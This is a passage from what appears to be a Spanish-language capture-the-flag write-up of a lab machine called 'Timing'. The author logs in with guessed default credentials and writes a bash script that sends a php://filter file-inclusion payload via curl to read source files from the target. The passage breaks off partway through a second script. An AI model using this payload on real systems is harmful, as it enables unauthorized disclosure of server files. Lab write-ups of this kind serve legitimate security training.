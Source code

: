 Probando el usuario aaron en la web con contraseña aaron accedemos.

![DentroWeb]({{ 'assets/img/writeups/Timing/dentroWeb.png' | relative_url }}){: .center-image }

Somos el user 2, puede que el user 1 sea el administrador.

Voy a crear un script en bash para enumerar más cómodamente los archivos de la máquina objetivo. Lo llamo rce.sh:
```bash
#!/bin/bash
 
function ctrl_c(){
    echo -e "\n Saliendo..\n"
    exit 1
}
# Ctrl+C
trap ctrl_c INT
 
if [ $# -eq 0 ]; then
 
    >&2 echo -e "\n No has proporcionado argumento, por favor proporciona archivo a listar..\n"
 
    exit 1
 
fi

curl -s -X GET "http://10.10.11.135/image.php?img=php://filter/resource=$1"
```
Bien, voy a listar todos los php sacados con gobuster, esta herramienta tiene la opción -o para exportar a un fichero la data. La exporté con el nombre gobusterDirectory y luego:
```bash
❯ cat gobusterDirectory | awk '{print $1}' > alistar.txt

❯ cat alistar.txt
───────┬─────────────────────────────────────────────────
       │ File: alistar.txt
───────┼─────────────────────────────────────────────────
   1   │ /profile.php
   2   │ /image.php
   3   │ /header.php
   4   │ /login.php
   5   │ /footer.php
   6   │ /upload.php
   7   │ /images
   8   │ /index.php
   9   │ /css
  10   │ /js
  11   │ /logout.php
```
Voy a crear un directorio para ir guardando el código de todas. Peeero si quiero listar los php no me lo saca con esa inyección en el curl del rce.sh creado, tendré que recurrir al segundo, modifico el script:
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n Saliendo..\n"
	exit 1
}

# Ctrl+C
trap ctrl_c INT

if [ $# -eq 0 ]; then

```